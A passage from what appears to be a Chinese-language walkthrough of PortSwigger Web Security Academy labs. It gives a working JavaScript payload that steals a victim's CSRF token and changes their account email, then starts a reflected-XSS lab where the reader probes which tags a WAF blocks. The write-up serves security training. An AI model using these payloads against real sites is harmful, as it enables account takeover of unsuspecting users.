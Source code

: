 所以基本上我們只需要

```
<form id="myForm" name="myForm" action="/my-account/change-email" method="POST">
<input type=hidden name="email" id="email" value="meow@meow.meow"/>
<input type=hidden name="csrf" id="csrf" value="fEKGXh3N8B3D9XmgCwLwq9tqbNnH7nTT"/>
<input type=hidden name="submit" id="submit" value="submit"/>
<script>document.createElement('form').submit.call(document.getElementById('myForm'))</script>
```

這樣就能自動送了，不過還有一個問題是我們要想辦法取得被害者的 CSRF Token

最終 Payload
```html
<script>
function post_data(csrf_token){
    var xhr = new XMLHttpRequest();
    xhr.open("POST", '/my-account/change-email', true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhr.send("email=meow1%40meow.meow&csrf="+csrf_token);
}

function get_csrf() {
    var re = /[A-Za-z0-9]{32}/g;
    csrf_token = this.responseText.match(re)[0];
    post_data(csrf_token);
}

var get_csrf_request = new XMLHttpRequest();
get_csrf_request.addEventListener("load", get_csrf);
get_csrf_request.open("GET", "https://acd81f291fcc2d2ac06f2bb30025003d.web-security-academy.net/my-account");
get_csrf_request.send();
</script>

```
## [Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)
### 題目敘述
 This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function. 
### 題目解釋
暴力猜 WAF 沒有檔到的東西
### 解答
送
```
<script>
<img>
<html>
```
會說 `Tag is not allow`

